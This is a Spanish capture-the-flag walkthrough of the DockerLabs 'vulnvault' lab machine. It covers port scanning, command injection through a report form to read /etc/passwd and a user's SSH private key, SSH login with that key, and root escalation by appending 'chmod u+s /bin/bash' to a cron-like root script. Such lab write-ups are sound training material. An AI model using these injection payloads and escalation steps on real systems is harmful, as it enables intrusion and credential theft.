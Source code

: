 # vulnvault

Maquina `vulnvault` de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil

![docker](../../../maquina-vulnvault/imagenes/docker.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 25 18:16:59 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -A -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Generador de Reportes - Centro de Operaciones
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.08 ms 172.17.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 25 18:17:10 2024 -- 1 IP address (1 host up) scanned in 10.59 seconds

```

Lo único que se puede ver es que esta el puerto 80 de `apache` y 22 de `openssh`, pero como no hay nada interesante continuaremos con el navegador:

#### PUERTO 80:

![80](../../../maquina-vulnvault/imagenes/80.png)

Como vemos parece ser una página de reportes, también podemos subir archivos, pero nada de eso nos sirve ya que luego de probar un rato descubrí esto:

![comando](../../../maquina-vulnvault/imagenes/comando.png)

![output](../../../maquina-vulnvault/imagenes/output.png)

Como vemos, podemos ejecutar comandos de manera remota, por lo que ahora leeremos el archivo `/etc/passwd` para ver que usuarios existen en la máquina, para hacerlo simplemente ejecutamos:

```css
;cat /etc/passwd
```

```css
Reporte: reporte_1724620988.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724620988.txt
Nombre: \
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
samara:x:1001:1001:samara,,,:/home/samara:/bin/bash
```

Como podemos ver hay un usuario `samara`, sabiendo esto podriamos intentar leer la clave privada de ssh del usuario `samara` de la siguiente manera:

```css
;cat /home/samara/.ssh/id_rsa
```

```css
Reporte: reporte_1724621080.txt

Archivo de reporte: /var/www/html/reportes/reporte_1724621080.txt
Nombre: \
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA9HEXYsEOUt5PUH/2fHI/buNxluV3x2qL6wATg0scjIeog9LSmW3k
K3NLw5yDON2vEfZxRSuEkUd743i2AZq/gekNEpvuUTnruRTibz/hZojm8CBpjgXccJW63a
ksBBS/G8iqTa4i9l9GFF0ytuGJ5CmAQy37dgNfsP015OrlN8jg56rtbUyR9kfscYU8R/B0
GDUo60Ek9kzv6QXzkVf/lmnKlVO/4ioJ5iEyL1z91NxBHsOWNQBCjry3kOYDynRD5mKj/g
2OZ/TWpTh/QylyKFfDQYPrbjXXWEe8nnzmoDolKtWvez0Sjig7TBV0z2swcvIuWoxwNFVL
0j/FnwkwYihlbLWi9Gu6ZeddY2+5RfZPRSZrd0+yOvUqHtZHBMBM5nMVyHoh78QyW8bA/q
K93VoLNrf8o19YyZoeNqVP03PE/sSE953JahsHr2iPyNb3q/Hgm+1mn5zL8e++oThK/s43
GeaCpew8JbRf1mD6lkfNZEhAQ2TXvtKRwvWmLxSYmExqgzXD7/XP/ZLUKNO+hQByu+l+VG
......................................................................
-----END OPENSSH PRIVATE KEY-----
```

## INTRUSION

Ahora simplemente lo copiamos y lo metemos en un archivo llamado `id_rsa` en nuestra maquina local. Luego le damos permisos de ejecución con `chmod 600 id_rsa` y nos conectamos mediante ssh de la siguiente manera:

```css
ssh -i id_rsa samara@172.17.0.2
```

## ESCALADA DE PRIVILEGIOS

#### SAMARA

Siendo el usuario samara vemos un mensaje de root que no contiene nada interesante, luego de buscar un rato se me ocurre usar `pspy` para ver si hay algún proceso oculto, para eso simplemente hacemos un wget desde la maquina victima a [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64), le damos permiso con `chmod +x pspy64` y lo ejecutamos con `./pspy64`.

```css

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/08/25 23:31:32 CMD: UID=0     PID=626428 | /bin/bash /usr/local/bin/echo.sh 
2024/08/25 23:31:32 CMD: UID=1001  PID=625471 | ./pspy64 
2024/08/25 23:31:32 CMD: UID=1001  PID=463266 | -bash 
2024/08/25 23:31:32 CMD: UID=1001  PID=463232 | sshd: samara@pts/0 
2024/08/25 23:31:32 CMD: UID=0     PID=462917 | sshd: samara [priv] 
2024/08/25 23:31:32 CMD: UID=33    PID=134146 | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=42     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=41     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=40     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=39     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=33    PID=38     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=0     PID=33     | /usr/sbin/apache2 -k start 
2024/08/25 23:31:32 CMD: UID=0     PID=15     | sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups 
2024/08/25 23:31:32 CMD: UID=0     PID=1      | /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done 
2024/08/25 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Como vemos hay un script que se ejecuta con bash:

```css
2024/08/25 23:31:32 CMD: UID=0     PID=626434 | /bin/bash /usr/local/bin/echo.sh
```

Ahora simplemente lo editamos con nano y agregamos la siguiente linea al final:

```css
chmod u+s /bin/bash
```

lo guardamos con `ctrl+o` presionamos enter y `ctrl+x` y listo, ahora simplemente ejecutamos `bash -p` y listo, _ya somos root_.

![root](../../../maquina-vulnvault/imagenes/root.png)

Gracias por leer, chau.
